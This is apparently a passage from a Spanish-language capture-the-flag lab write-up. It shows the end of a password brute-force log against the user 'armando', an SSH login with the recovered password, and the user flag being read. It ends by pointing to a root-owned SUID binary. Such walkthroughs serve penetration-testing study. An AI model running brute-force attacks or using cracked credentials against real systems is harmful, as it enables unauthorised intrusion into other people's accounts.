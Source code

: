 ```java
Probando contraseña [Línea 8577]: john12
Probando contraseña [Línea 8578]: jesus3
Probando contraseña [Línea 8579]: jeanie
Probando contraseña [Línea 8580]: jade123
Probando contraseña [Línea 8581]: iluvu1
Probando contraseña [Línea 8582]: iluvboys
Probando contraseña [Línea 8583]: iloveme123
Probando contraseña [Línea 8584]: filomena
Probando contraseña [Línea 8585]: feliz
Probando contraseña [Línea 8586]: darklord
Probando contraseña [Línea 8587]: cute123
Probando contraseña [Línea 8588]: columbia

Contraseña encontrada para el usuario armando en la línea 8588: columbia
```

*Contraseña* encontrada para el *usuario* **armando** en la **línea 8588**: **columbia**


Establecemos una conexión **ssh** con el usuario `armando` y la contraseña `columbia` :
```java
┌─[j0rd1s3rr4n0@parrot]─[~]
└──╼ $ssh armando@172.17.0.2 -p 22
armando@172.17.0.2's password: 

Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.10.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Jan 26 05:02:53 2025 from 172.17.0.1

armando@861ac52240d6:~$ whoami;ls -la;pwd
armando
total 36
drwxr-x--- 1 armando armando   150 Jan 26 10:42 .
drwxr-xr-x 1 root    root       44 Dec 30 02:47 ..
-rw------- 1 armando armando    18 Jan 26 10:42 .bash_history
-rw-r--r-- 1 armando armando   220 Dec 30 02:47 .bash_logout
-rw-r--r-- 1 armando armando  3771 Dec 30 02:47 .bashrc
drwx------ 1 armando armando    40 Jan 26 05:02 .cache
drwx------ 1 armando armando    12 Jan 26 05:04 .config
-rw-r--r-- 1 armando armando   807 Dec 30 02:47 .profile
---s--x--x 1 root    root    16088 Dec 30 02:47 do_not_execute
-rw-r--r-- 1 root    root       39 Dec 30 02:47 user.txt
/home/armando

armando@861ac52240d6:~$ cat user.txt
flag{293aea10df6464942b3cce268c9c75af}
```
Al acceder al sistema podemos obervar que estamos en el home del usuario armando y que este home tiene 2 archivos que normalmente no se encuentran ahí, el user.txt que contiene la flag y un archivo con permiso SUID del usuario root.
